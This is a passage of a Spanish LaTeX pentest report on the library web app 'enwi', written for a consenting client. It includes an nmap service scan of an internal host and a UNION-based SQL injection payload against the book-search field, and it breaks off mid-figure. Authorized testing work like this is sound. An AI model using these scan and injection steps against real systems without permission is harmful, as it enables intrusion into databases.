\section{Pentesting}
Por acuerdo mutuo del cliente, no vamos a indagar exactamente en la arquitectura de la aplicación, ya que a nosotros solo se nos fue presentada la aplicación como tal, enwi, una herramienta de administración para bibliotecas\footnote{\url{https://github.com/thejudge1308/Enwi_web/}}. Esta fue ofrecida voluntariamente a fin de compartir la información obtenida en esta etapa.

El proceso de instalación y levantamiento consiste en los siguientes elementos en pos de replicar el ambiente de pruebas de la aplicación al momento de su desarrollo:

\begin{itemize}
    \item Maquina Windows 10 build 17763.1
    \item XAMPP v 7.4.8
\end{itemize}

La instalación de XAMPP requiere la desactivación de UAC en Windows, de lo contrario el servidor no es capaz de arrancar.  En estas pruebas no se considera la instalación ni la ejecucion de los módulos de escritorio, ya que estos fueron auditados previamente por el cliente. Adicionalmente, el módulo web de consultas se espera que no tenga permisos de ningun tipo para poder realizar acciones mas alla de consultas sobre la existencia de libros o estados de usuarios de la biblioteca, debido a que es de caracter público.

Las pruebas fueron realizadas desde la red interna, con una máquina diferente a la que se está utilizando para levantar los servicios. El levantamiento del ambiente fue en conjunto al cliente para replicar el estado original.

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/app1.png}
    \caption{ Pantalla de inicio de enwi }
\end{figure}

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/app2.png}
    \caption{ Pantalla de búsqueda de libros de enwi }
\end{figure}

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/app3.png}
    \caption{ Resultado de busqueda de enwi }
\end{figure}

\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/app4.png}
    \caption{ Headers de resultado de busqueda en enwi }
\end{figure}

\subsection{nmap}

\begin{minted}[linenos,tabsize=2,breaklines,fontsize=\scriptsize]{bash}
nmap -oX outputfile.xml  -p- -sV --version-intensity 5 192.168.0.233 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-05 21:30 -04
Nmap scan report for DESKTOP-AKI7L48.lan (192.168.0.233)
Host is up (0.0014s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.8)
443/tcp  open  ssl/http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.8)
3306/tcp open  mysql?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.80%I=5%D=8/5%Time=5F2B5DAD%P=x86_64-pc-linux-gnu%r(NUL
SF:L,4D,"I\0\0\x01\xffj\x04Host\x20'fu-no-isan\.lan'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 151.59 seconds
\end{minted}


\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/nmap.png}
    \caption{ Resultados formateados de nmap }
\end{figure}


\subsection{Pentesting}

Mayor inspección a nivel de servicio no revela mayor información al respecto del estado de la aplicación ni de como comenzar una intrusión. Sin embargo, podemos notar que al momento de buscar libros que contienen delimitadores de string, recibimos el siguiente error:


\begin{figure}
	\centering
	
\includegraphics[width=.9\textwidth]{fragments/pentest/error1.png}
    \caption{ Error recibido por entrada }
\end{figure}

Eso nos indica dos cosas. Lo primero es que al parecer esta entrada es sensible a una inyección SQL. Segundo, que lo que sea resultante de esa salida tiene que ser un arreglo de registros.

Esto es porque el método num_rows solo aparece cuando se espera que el resultado sea iterable. Utilizando esto como información, procedemos a realizar una inyección por medio de un union. No es posible ejecutar una inyección por medio de el término de la query en este punto dado que en php, al momento de concatenar queries, solo se ejecuta la primera.

Luego de una busqueda exhaustiva para encontrar el numero de elementos retornados por la query, el resultado es que son 5 elementos, los cuales coinciden con la estructura devuelta por la consulta al servicio web.

\begin{minted}[linenos,tabsize=2,breaklines,fontsize=\scriptsize]{sql}
Libro de prueba 3' union select 'debo' as titulo, 'limpiar' as autor, 'todas' as edicion, 'las' as anio, 'queries' as numeroCopias; -- "
\end{minted}
    

\begin{figure}
	\centering
